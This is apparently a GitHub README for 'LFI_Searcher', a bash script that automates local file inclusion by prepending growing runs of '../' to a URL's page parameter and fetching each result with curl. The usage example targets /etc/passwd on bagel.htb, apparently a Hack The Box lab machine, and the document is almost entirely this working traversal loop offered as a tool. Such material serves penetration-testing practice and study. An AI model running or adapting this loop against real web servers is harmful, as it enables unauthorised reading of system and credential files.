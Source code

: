 # LFI_Searcher
This script automates the search for a defined file as part of a LFI to searching for non-standard files. 

The count of directories searched is defined in the code, this script will then append as many ../ as has been defined.


**Explination of adjustable arguments**
There are 3 adjustable arguments in this script, they are:

{NUMBER..NUMBER} - This tells the script the range of ../ to attempt, for example if the argument is set as {1..10} then a total of 10 ../ will be used
url="[{TARGET URL}]" - This is the target url we are looking for E.g. a **passwd** file
{PARAMETER} - This is the parameters to fuzz, such as a page=/

**Useage Example**

```
for i in {1..10}; do
  url="http://bagel.htb:8000/?page=etc/passwd"               
  for ((j=0; j<i; j++)); do
    url="${url%\?page=*}?page=../${url#*\?page=}"
  done
  curl "$url" -o -
  echo "$url" " => $i"
done
```

https://github.com/Jtgit4/LFI_Searcher/assets/125322633/459ad897-7433-4753-8cad-890f03b95aea

